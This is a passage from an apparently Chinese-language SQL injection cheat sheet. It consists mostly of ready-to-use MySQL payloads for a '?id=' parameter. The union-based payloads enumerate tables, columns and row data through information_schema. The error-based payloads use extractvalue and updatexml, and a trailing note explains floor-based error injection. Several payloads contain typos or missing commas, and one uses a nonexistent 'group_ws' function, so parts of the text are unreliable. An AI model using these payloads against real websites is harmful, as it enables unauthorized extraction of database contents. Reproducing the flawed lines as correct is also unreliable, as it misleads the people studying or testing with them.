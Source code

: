 ```mysql
?id=0' union select 1,2,table_name from information_schema.tables where table_schema=database() limit 0,1 --+
?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名' --+
# 查看表中字段名
?id=0' union select 1,2 column_name from information_schema.columns where table_name='表名' limit 0,1 --+
?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' --+
# 查看表中数据
?id=0' union select 1,2,group_concat(字段,": ",字段) from 表名 --+
?id=0' union select 1,2,group_ws("~",字段,字段) from 表名 --+
?id=0' union select 1,2,concat(字段,字段) from 表名 --+
?id=0' union select 1,字段1,字段2 from 表名 limit 0,1--+
```

### **报错注入**

```mysql
# 测试注入点时,故意构造错误的MySQL语句,如果页面回显的错误信息为数据库报出来的错误,即可使用报错注入,只显示32位长度的数据
# 报错注入使用的函数
extractvalue(参数1,参数2) 	# 参数1表示操作的目标XML文档，参数2则表示目标XML的查找路径。
updatexml(参数1,参数2,参数3)	    # XML文档,路径,替换值,原理和 extractvalue() 是相同的
substr(1,30) 	# 截断字串位数, 1 起始位置, 30 长度
# 查看库
?id=0' and extractvalue(1,concat(0x7e,(select database()),0x7e)) or '
# 查看表
?id=0' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from infomation_schema.tables where table_schema='库名')0x7e)) or'
# 查看表,截断32位显示
?id=0' and extractvalue(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_shcema='库名' limit 0,1),32),0x7e)) or'
# 查看字段
?id=0' and extractvalue(1,concat(0x7e,substr((select group_concat(column_name) from infomation_schema.columns where table_name='表名' limit 0,1),32),0x7e)) or'
# updatexml 报错注入 查看字段
?id=0' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_name='表名'),32)0x7e),0) or'
# 查看表中数据
?id=0' and extractvalue(1,concat(0x7e,substr((select group_concat(字段1,": "字段2) from 表名 limit 0,1),32),0x7e)) or'
```

```mysql
# floor报错注入和前面两个函数不同，floor函数报错注入的原理涉及到以下几个函数：
1. floor()：小数向下取整数（向上取整数是ceiling()函数）
2. rand()：随机返回0 ~ 1之间的小数
3. concat_ws()：将括号内的数据用第一个字段连接起来
4. group by子句：分组语句，常用于结合统计函数，根据一个列或多个列，对结果集进行分组
5. as：就是别名
6. count函数：汇总统计数量
7. limit：显示指定行数
# 
```
